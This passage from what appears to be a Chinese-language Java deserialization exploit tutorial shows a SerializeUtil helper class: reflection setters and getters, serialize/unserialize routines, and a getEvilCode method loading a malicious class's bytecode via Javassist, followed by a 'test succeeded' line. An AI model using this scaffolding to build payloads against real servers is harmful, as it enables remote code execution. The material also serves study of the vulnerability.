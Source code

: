     public class SerializeUtil {
        public static Object getFieldValue(Object obj, String fieldName) throws Exception{
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            return field.get(obj);
        }
        public static byte[] getEvilCode() throws Exception{
            ClassPool pool = ClassPool.getDefault();
            CtClass clazzz = pool.get("EvilCode");
            byte[] code = clazzz.toBytecode();
            return code;
        }

        public static void unserialize(byte[] bytes) throws Exception{
            try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
                ObjectInputStream oin = new ObjectInputStream(bain)){
                oin.readObject();
            }
        }

        public static byte[] serialize(Object o) throws Exception{
            try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
                ObjectOutputStream oout = new ObjectOutputStream(baout)){
                oout.writeObject(o);
                return baout.toByteArray();
            }
        }
        public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(obj,value);
        }
    }
    ```

测试成功：

![alt text](img/12.png){loading="lazy"}
